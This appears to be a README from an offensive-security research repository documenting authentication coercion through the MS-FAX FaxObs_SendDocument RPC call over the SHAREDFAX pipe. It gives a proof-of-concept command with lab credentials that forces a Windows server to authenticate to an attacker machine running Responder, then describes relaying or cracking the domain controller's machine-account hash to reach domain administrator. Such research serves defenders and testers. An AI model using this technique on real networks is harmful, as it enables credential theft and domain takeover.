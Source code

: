 # MS-FAX - Remote call to FaxObs_SendDocument (opnum 5)

## Summary

+ **Protocol**: [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4)

+ **Protocol UUID**: 6099fc12-3eff-11d0-abd0-00c04fd91a4e

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\SHAREDFAX`

+ **Function name**: [`FaxObs_SendDocument`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/21b87199-d4e7-472c-9190-90c6bb16d947)

+ **Function operation number**: `5`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\SHAREDFAX` and bind to the desired [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol (with uuid `6099fc12-3eff-11d0-abd0-00c04fd91a4e` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-FAX`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\SHAREDFAX` This pipe is connected to the protocol [[MS-FAX]: Fax Server and Client Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4) and allows to call RPC functions of this protocol. We will then call the remote [`FaxObs_SendDocument`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/21b87199-d4e7-472c-9190-90c6bb16d947) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
FaxObs_SendDocument('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
error_status_t FaxObs_SendDocument(
   [in] handle_t hBinding,
   [in, string, unique] LPCWSTR FileName,
   [in] const FAX_JOB_PARAMW* JobParams,
   [out] LPDWORD FaxJobId
 );
```

## References

+ Documentation of protocol [MS-FAX]: Fax Server and Client Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/dabce486-05b1-4ea4-95fe-f2c3d5315ff4

+ Documentation of function `FaxObs_SendDocument`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fax/21b87199-d4e7-472c-9190-90c6bb16d947